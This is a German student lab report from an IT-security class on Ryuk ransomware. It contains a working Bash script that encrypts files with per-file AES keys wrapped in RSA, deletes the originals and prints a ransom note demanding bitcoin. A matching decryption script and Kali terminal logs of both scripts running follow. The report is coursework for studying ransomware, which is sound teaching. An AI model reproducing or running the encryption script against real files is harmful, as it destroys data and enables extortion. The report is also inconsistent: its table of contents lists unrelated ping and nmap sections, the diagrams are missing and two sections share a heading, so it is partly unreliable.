



# Arbeitsbericht: Ryuk Ransomware

* **Klasse:** 5AHITS
* **Schüler:** Anes Sejdic, Aldin Mukic
* **Fach:** ITSE
* **Datum:** 2026-09-28
* **Aufgabe:** [Ryuk Ransomware](https://www.franzmatejka.at/htl/doc/ITSI/lab/ransom_ryuk/01_ryuk.html)

---

## Inhaltsverzeichnis

1. [Ping](#1-ping)  
   1.1 [Ping Cheat Sheet](#11-ping-cheat-sheet)  
   1.2 [Netzwerkprotokoll und Firewall‑Probleme](#12-netzwerkprotokoll-und-firewall-probleme)
2. [Ping Skript zur automatisierten Host Discovery](#2-ping-skript-zur-automatisierten-host-discovery)
3. [Host Discovery mit nmap](#3-host-discovery-mit-nmap)
4. [Alternativen zur Host Discovery](#4-alternativen-zur-host-discovery)
5. [Verteidigung gegen Ping‑Scans](#5-verteidigung-gegen-pingscans)  
    5.1 [Verteidigungsmöglichkeiten](#51-verteidigungsmöglichkeiten)  
    5.2 [Wie ein Angreifer das umgehen kann](#52-wie-ein-angreifer-das-umgehen-kann)

---

**Fragen**: Im Unterricht schon besprochen 

### 1.1 Ryuk Funktionsweise

**Aufgabenstellung**: Stelle den Verschlüsselungs- und Entschlüsselungsablauf mit allen beteilgten Schlüsseln und Verschlüsselungsverfahren in einer Skizze dar.

**Verschlüsselung:**




**Entschlüsselung:**



### 1.2 Ryuk - Team Red

**Aufgabenstellung**: Schreibe ein Bash-Script das Dateien nach dem Ryuk-Schema mit openssl verschlüsselt. Am Ende soll eine Ransom Note ausgegeben werden.

**Code**:
```sh
#!/bin/bash

# RSA Schlüsselpaare generieren
openssl genrsa -out rsa_global_key.pem 2048 2>/dev/null
openssl rsa -in rsa_global_key.pem -pubout -out rsa_global_key_public.pem 2>/dev/null

openssl genrsa -out rsa_victim_key.pem 2048 2>/dev/null
openssl rsa -in rsa_victim_key.pem -pubout -out rsa_victim_key_public.pem 2>/dev/null

# AES Victim Key generieren und absichern
AES_VICTIM_KEY=$(openssl rand -hex 32)

openssl aes-256-cbc -in rsa_victim_key.pem -K "$AES_VICTIM_KEY" -iv 0 -out victim_private.enc 2>/dev/null

echo -n "$AES_VICTIM_KEY" | openssl rsautl -encrypt -pubin -inkey rsa_global_key_public.pem -out victim_key.enc 2>/dev/null

# Dateien verschlüsseln
for FILE in "$@"; do
    [ -f "$FILE" ] || continue

    case "$FILE" in
        rsa_global_key.pem|rsa_global_key_public.pem|\
        rsa_victim_key.pem|rsa_victim_key_public.pem|\
        victim_private.enc|victim_key.enc|ryuk_ransom.sh)
            continue ;;
    esac

    AES_FILE_KEY=$(openssl rand -hex 32)

    openssl aes-256-cbc -in "$FILE" -K "$AES_FILE_KEY" -iv 0 -out "${FILE}.tmp" 2>/dev/null

    echo -n "$AES_FILE_KEY" | openssl rsautl -encrypt -pubin -inkey rsa_victim_key_public.pem -out "${FILE}.key.tmp" 2>/dev/null

    cat "${FILE}.tmp" "${FILE}.key.tmp" > "${FILE}.ryuk"
    rm -f "$FILE" "${FILE}.tmp" "${FILE}.key.tmp"
    mv "${FILE}.ryuk" "$FILE"

    echo "[ENCRYPTED] $FILE"
done

cat << 'RANSOM'

 ALL YOUR FILES HAVE BEEN ENCRYPTED.
 Send 50 BTC to in order getting your fiels restored: ryuk@htl-braunau.at

RANSOM

```

**Ausführung**:
```sh
┌──(kali㉿kali)-[~]
└─$ mkdir ryuk_testUmgebung

┌──(kali㉿kali)-[~]
└─$ cd ryuk_test

┌──(kali㉿kali)-[~/ryuk_test]
└─$ echo "Backup der Datenbank" > file3.txt

┌──(kali㉿kali)-[~/ryuk_test]
└─$ echo "Achtung wichtige Daten" > file2.txt

┌──(kali㉿kali)-[~/ryuk_test]
└─$ echo "Bankdaten aller Mitglieder" > file1.txt

┌──(kali㉿kali)-[~/ryuk_test]
└─$ nano ryuk_ransom.sh

┌──(kali㉿kali)-[~/ryuk_test]
└─$ chmod +x ryuk_ransom.sh

┌──(kali㉿kali)-[~/ryuk_test]
└─$ ./ryuk_ransom.sh *
./ryuk_ransom.sh: 1: k#!/bin/bash: not found
[ENCRYPTED] file1.txt
[ENCRYPTED] file2.txt
[ENCRYPTED] file3.txt

ALL YOUR FILES HAVE BEEN ENCRYPTED.
Send 50 BTC to in order getting your fiels restored: ryuk@htl-braunau.at


┌──(kali㉿kali)-[~/ryuk_test]
└─$ cat file2.txt          
(d�P/O��w���y�l`�9%B�������SI¸c�Bc��וS�~ʧJ�E��L�;��AoD�4�A78�+E�DbX����EټP�m`SN�P��q]�}�<���
j�<.9a��a���    \.��Y�\Z�!�1    �3\>Nr�G}��▒▒U�ӣe̞8&<~g��m�>���Eܦ�]{>3������XQ��������vO�L���%��n.)��Ⱦ������p��c-5p��������6zN�;����̃��y��o�ޝ�N%�=����                                                                                        
┌──(kali㉿kali)-[~/ryuk_test]
└─$ cat file1.txt
C?Ecd�gށ�?�=R��BE2J���7`�4�t=�=��
                                 ��`�"dS�����d/.��wO�^�x�Q�d"�{ɏT<���0�`�Q�$���3|��%�gG�0%<)�3f▒q�
          ��x▒�)����$�3�Ee�h���[��Z��0��.l�_��^ݿ���&��L��*�o+V��▒��n�w���8�<����0��N;b�Z�7"Შ��|X���s/2�66��~y
                     m1߃��<|�Y�;6���jlN+��se9_.�W.�b��\'W�'?�s>���XP
�▒���{ٟ�                  
```

### 1.2 Ryuk - Team Red

**Aufgabenstellung**: Lass deine Dateien von einem Mitschüler mit dessen Script verschlüsseln und entschlüssele sie dann mit dessen rsa_global_key_private. Implementiere den kompletten Entschlüsselungsablauf als Shell-Script.

**Code**: 
```sh
#!/bin/bash

GLOBAL_KEY="$1"
shift

# Schritt 1: aes_victim_key mit globalem RSA Private Key entschlüsseln
AES_VICTIM_KEY=$(openssl rsautl -decrypt -inkey "$GLOBAL_KEY" -in victim_key.enc 2>/dev/null)
echo "[*] aes_victim_key: $AES_VICTIM_KEY"

# Schritt 2: rsa_victim_key_private mit aes_victim_key entschlüsseln
openssl aes-256-cbc -d -in victim_private.enc -K "$AES_VICTIM_KEY" -iv 0 -out rsa_victim_key_recovered.pem 2>/dev/null
echo "[*] rsa_victim_key_private wiederhergestellt"

# Schritt 3: Dateien entschlüsseln
for FILE in "$@"; do
    [ -f "$FILE" ] || continue

    case "$FILE" in
        rsa_global_key.pem|rsa_global_key_public.pem|\
        rsa_victim_key.pem|rsa_victim_key_public.pem|\
        rsa_victim_key_recovered.pem|\
        victim_private.enc|victim_key.enc|\
        ryuk_ransom.sh|ryuk_decrypt.sh)
            continue ;;
    esac

    FILESIZE=$(wc -c < "$FILE")
    [ "$FILESIZE" -le 256 ] && continue

    CONTENT_SIZE=$((FILESIZE - 256))

    # Dateiinhalt und verschlüsselten AES Key trennen
    head -c "$CONTENT_SIZE" "$FILE" > "${FILE}.content"
    tail -c 256 "$FILE" > "${FILE}.aes_enc"

    # AES Key mit rsa_victim_key_private entschlüsseln
    AES_FILE_KEY=$(openssl rsautl -decrypt -inkey rsa_victim_key_recovered.pem -in "${FILE}.aes_enc" 2>/dev/null)

    # Datei mit AES Key entschlüsseln
    openssl aes-256-cbc -d -in "${FILE}.content" -K "$AES_FILE_KEY" -iv 0 -out "${FILE}.dec" 2>/dev/null

    rm -f "$FILE" "${FILE}.content" "${FILE}.aes_enc"
    mv "${FILE}.dec" "$FILE"

    echo "[DECRYPTED] $FILE"
done

rm -f rsa_victim_key_recovered.pem
echo "[*] Fertig."

```

**Ausführung**:
```sh
┌──(kali㉿kali)-[~/ryuk_test]
└─$ nano ryuk_decrypt.sh

┌──(kali㉿kali)-[~/ryuk_test]
└─$ chmod +x ryuk_decrypt.sh 

┌──(kali㉿kali)-[~/ryuk_test]
└─$ ./ryuk_decrypt.sh rsa_global_key.pem *
[*] aes_victim_key: bd85a11694c78b58c776982e20cdaaf5323973f3e5975f5c6bc32bf24b353cfd
[*] rsa_victim_key_private wiederhergestellt
[DECRYPTED] file1.txt
[DECRYPTED] file2.txt
[DECRYPTED] file3.txt
[*] Fertig.

┌──(kali㉿kali)-[~/ryuk_test]
└─$ cat file1.txt           
Bankdaten aller Mitglieder

┌──(kali㉿kali)-[~/ryuk_test]
└─$ cat file2.txt
Achtung wichtige Daten

┌──(kali㉿kali)-[~/ryuk_test]
└─$ cat file3.txt
Backup der Datenbank
```